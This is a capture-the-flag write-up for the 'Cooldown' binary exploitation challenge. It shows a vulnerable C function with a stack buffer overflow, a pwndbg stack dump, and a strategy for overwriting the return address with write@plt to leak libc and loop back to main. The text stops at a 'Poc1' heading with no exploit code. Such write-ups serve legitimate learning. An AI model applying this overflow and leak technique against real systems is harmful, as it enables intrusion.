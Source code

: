 # Cooldown

Warmup & [cooldown](https://github.com/vietd0x/ctf-writeups/raw/main/Hayyim/Cooldown_15.tgz) are the same problem, only differing by size of input buffer, 0x60 bytes instead of 0xc0 bytes. Actually if your script work on cooldown chall, it’s also work on warmup chall. But my script before didn’t work cause my payload i send to long, so i must approad diff way to solve this chall.

```c
void vuln() {
	char buf[0x30];
	memset(buf, 0, 0x30);
	write(1, "> ", 2);
	read(0, buf, 0x60);
}
```

## strategy

like `warmup`, use write to leak libc

```c
► 0x400573    call   read@plt // break point at read
        fd: 0x0 (/dev/pts/0)
        buf: 0x7fffffff7cd8 ◂— 0x0
        nbytes: 0x60
pwndbg> tel 10
00:0000│ rbx rsi rsp 0x7fffffff7cd8 ◂— 0x0
... ↓                6 skipped
07:0038│             0x7fffffff7d10 —▸ 0x4004f2 ◂— xor    edi, edi // ret addr turn back to main
08:0040│             0x7fffffff7d18 —▸ 0x7ffff7dd40ca ◂— lea    rdx, [rip + 0xfa6f] // <_dl_start_user+50> ret addr of main
pwndbg> x/3i 0x7ffff7dd40ca
   0x7ffff7dd40ca:      lea    rdx,[rip+0xfa6f] # 0x7ffff7de3b40 //<_dl_fini>
   0x7ffff7dd40d1:      mov    rsp,r13
   0x7ffff7dd40d4:      jmp    r12
pwndbg> x $r12
   0x4004e0:    sub    rsp,0x8 // addr of main
// we have free roundtrip
```

So, if i overwrite ret addr with `elf.plt.write`, it become

```r
elf.plt.write
<_dl_start_user+50>
```

After call `write`, it jmp to run code in `<_dl_start_user+50>` and we turn back to main

**NOTE:** not working on local, need run docker, because we call `write(0, buf, 0x60)` to dump stack

## Poc1
